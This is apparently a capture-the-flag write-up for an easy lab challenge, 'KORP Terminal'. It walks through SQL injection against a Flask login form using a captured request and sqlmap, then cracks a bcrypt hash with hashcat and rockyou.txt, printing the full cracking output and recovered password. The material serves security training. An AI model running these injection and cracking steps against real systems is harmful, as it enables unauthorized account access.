

        <font size="10">KORP Terminal</font>

05<sup>th</sup> March 2024 / D24.xx.xx

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=green>Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- SQL injection to extract and crack bcrypt password hash

## Description

* Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

## Skills Required

- Understanding of Python and Flask
- Understanding of SQL
- Understanding of password hashing

## Skills Learned

- SQL injection
- Password cracking

## Application Overview



We are initially greeted by a login screen promoting us for a username and password.

```
POST / HTTP/1.1
Host: localhost:1337
Content-Length: 27
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:1337
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:1337/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=test*&password=test*
```

We will try intercepting the request and pass it to sqlmap in order to test for sql injection.

```
sqlmap -r request.txt --ignore-code 401
```


We can now enumerate the database tables.


We get a bcrypt hashed password. We can try cracking it with hashcat.

```
hashcat -a 0 -m 3200 bcrypt_hash_file rockyou.txt
```

Eventually we get the password.

```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 2.1 LINUX) - Platform #1 [Intel(R) Corporation]
==================================================================
* Device #1: AMD Ryzen 5 5600X 6-Core Processor, 7911/15887 MB (1985 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /home/killy/tools/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8...63yiv.
Time.Started.....: Tue Mar  5 20:09:58 2024 (24 secs)
Time.Estimated...: Tue Mar  5 20:10:22 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/killy/tools/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       59 H/s (9.35ms) @ Accel:12 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1440/14344384 (0.01%)
Rejected.........: 0/1440 (0.00%)
Restore.Point....: 1296/14344384 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: winston -> michel
Hardware.Mon.#1..: Temp: 89c Util: 86%

Started: Tue Mar  5 20:09:51 2024
Stopped: Tue Mar  5 20:10:24 2024
```

We can use this to login as `admin` and get the flag.